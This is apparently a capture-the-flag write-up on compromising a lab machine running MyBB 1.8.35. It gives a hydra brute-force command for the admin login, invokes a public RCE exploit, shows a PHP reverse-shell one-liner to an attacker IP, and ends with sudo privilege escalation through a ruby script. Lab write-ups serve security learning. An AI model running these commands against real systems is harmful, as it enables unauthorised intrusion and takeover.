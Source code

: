 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143517.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241029152250.png)


```

And just like that, the CTF is done!